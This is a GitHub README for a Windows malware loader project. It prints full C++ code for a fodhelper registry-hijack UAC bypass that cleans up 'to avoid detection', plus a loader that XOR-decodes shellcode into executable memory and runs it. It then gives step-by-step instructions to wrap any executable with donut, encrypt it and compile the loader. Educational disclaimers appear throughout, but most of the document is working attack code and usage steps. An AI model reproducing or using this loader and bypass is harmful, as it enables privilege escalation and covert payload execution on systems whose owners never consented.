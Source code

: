 # L3582-490DER

## Overview
This project contains two main components: a C++ UAC bypass demonstration and a Python shellcode encryption utility. **This is for educational purposes only** and was developed by 3582-490 to explore Windows API concepts and security mechanisms.

## DISCLAIMER
**I, 3582-490, created this code solely for educational and research purposes. I do not endorse, encourage, or take responsibility for any misuse of this code. Unauthorized use of these techniques against systems you don't own is illegal and unethical. Use this knowledge responsibly and only in environments where you have explicit permission.**

## Project Structure

### 1. L3582-490DER.cpp
This C++ code demonstrates various Windows API concepts including potential UAC bypass techniques (commented out for safety).

#### UAC Bypass Code Explanation:
```cpp
// UAC bypass technique using fodhelper (commented out for safety)

void mason__xa() {
    // Creates registry entries to hijack the fodhelper.exe UAC bypass
    HKEY mason__xb; // Registry key handle
    wchar_t mason__xc[MAX_PATH]; // Buffer for current executable path
    
    // Get the path of the current executable
    GetModuleFileNameW(NULL, mason__xc, MAX_PATH);
    
    // Create or open registry key for fodhelper hijack
    RegCreateKeyExW(HKEY_CURRENT_USER,
        L"Software\\Classes\\ms-settings\\shell\\open\\command",
        0, NULL, 0, KEY_WRITE, NULL, &mason__xb, NULL);
    
    // Set the default value to point to our executable
    RegSetValueExW(mason__xb, L"", 0, REG_SZ, (BYTE*)mason__xc, (wcslen(mason__xc) + 1) * sizeof(wchar_t));
    
    // Clear the DelegateExecute value to ensure our command runs
    RegSetValueExW(mason__xb, L"DelegateExecute", 0, REG_SZ, (BYTE*)L"", sizeof(wchar_t));
    
    // Launch fodhelper.exe which will execute our code with elevated privileges
    ShellExecuteW(NULL, L"open", L"fodhelper.exe", NULL, NULL, SW_HIDE);
    
    // Wait for execution to complete
    Sleep(3000);
    
    // Clean up registry entries to avoid detection
    RegDeleteTreeW(HKEY_CURRENT_USER, L"Software\\Classes\\ms-settings");
}

// Function to check if the current process has admin privileges
bool mason__xg() {
    BOOL mason__xh = FALSE; // Admin check result
    SID_IDENTIFIER_AUTHORITY mason__xi = SECURITY_NT_AUTHORITY; // NT authority
    PSID mason__xj; // Group SID

    // Create a SID for the Administrators group
    if (AllocateAndInitializeSid(&mason__xi, 2, SECURITY_BUILTIN_DOMAIN_RID,
        DOMAIN_ALIAS_RID_ADMINS, 0, 0, 0, 0, 0, 0, &mason__xj)) {
        // Check if current token is member of Admin group
        CheckTokenMembership(NULL, mason__xj, &mason__xh);
        FreeSid(mason__xj); // Free the SID
    }
    return mason__xh; // Return admin status
}

```

#### Shellcode Execution Code Explanation:
```cpp
// Main function demonstrating XOR decryption and execution
int WINAPI WinMain(HINSTANCE mason__xk, HINSTANCE mason__xl, LPSTR mason__xm, int mason__xn) {
    // The commented section would check for admin privileges and attempt UAC bypass if not admin
    // if (!mason__xg()) {
    //    mason__xa();
    //    return 0;
    // }
    
    std::string mason__xd; // Unused string variable
    
    // Encrypted shellcode using XOR cipher (example values)
    unsigned char mason__xe[] = { 0x42, 0x6A, 0x75, 0xAA, 0xAA, 0x6A, 0x75, 0xAA };
    
    unsigned char mason__xf = 0xAA; // XOR decryption key
    
    // Decrypt the shellcode using XOR operation
    for (int mason__xi = 0; mason__xi < sizeof(mason__xe); ++mason__xi) {
        mason__xe[mason__xi] ^= mason__xf; // XOR each byte with key
    }
    
    // Allocate executable memory for the shellcode
    void* mason__xj = VirtualAlloc(0, sizeof(mason__xe), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    
    // Copy decrypted shellcode to executable memory
    memcpy(mason__xj, mason__xe, sizeof(mason__xe));
    
    // Execute the shellcode by casting memory to function pointer and calling it
    ((void(*)())mason__xj)();
    
    return 0;
}
```

### 2. ShellCodeXOR.py
This Python utility encrypts binary files (like shellcode) using XOR encryption for use in the C++ program.

#### Features:
- XOR encryption with customizable key (default 0xAA)
- Converts encrypted data to C-style array format
- Handles file input with validation
- Generates output ready for use in C++ programs

## How to Use

### Prerequisites
1. Download [donut](https://github.com/TheWover/donut/releases/download/v1.1/donut_v1.1.zip) to generate shellcode from executables
2. Python 3.x installed for the encryption script

### Step-by-Step Process

1. **Generate shellcode from an executable using donut:**
   ```
   donut.exe -i your_file.exe -o output.bin
   ```

2. **Encrypt the shellcode using the Python utility:**
   ```
   python ShellCodeXOR.py
   ```
   Follow the prompts to select your .bin file

3. **Replace the encrypted array in the C++ code:**
   - Copy the output from output.txt
   - Replace the `mason__xe` array in L3582-490DER.cpp with your encrypted shellcode

4. **Compile the C++ code:**
   - Use a C++ compiler like MinGW or Visual Studio
   - Ensure you link against the necessary libraries (Windows.h, etc.)

## Technical Details

### XOR Encryption
The project uses a simple XOR cipher with a single-byte key (0xAA) for demonstration purposes. In real-world scenarios, more robust encryption should be used.

### Memory Execution
The code uses `VirtualAlloc` with `PAGE_EXECUTE_READWRITE` permissions to allocate memory that can execute code. This technique is commonly monitored by security software.

### UAC Bypass (Commented Out)
The commented UAC bypass technique exploits the fodhelper.exe mechanism by creating specific registry entries. This technique is well-documented and likely detected by modern security solutions.

## Legal and Ethical Considerations

This code is provided for educational purposes only. Before using any of these techniques:

1. Ensure you have explicit written permission to test on the target system
2. Understand that these techniques may violate terms of service
3. Be aware that many of these methods are detected by modern security solutions
4. Never use this knowledge to harm others or disrupt systems

## About the Author

I'm 3582-490, a security enthusiast interested in understanding Windows internals and security mechanisms. I believe that understanding how systems can be exploited is essential to defending them effectively.

## License

This project is provided for educational purposes only. No license is granted for commercial use or redistribution.
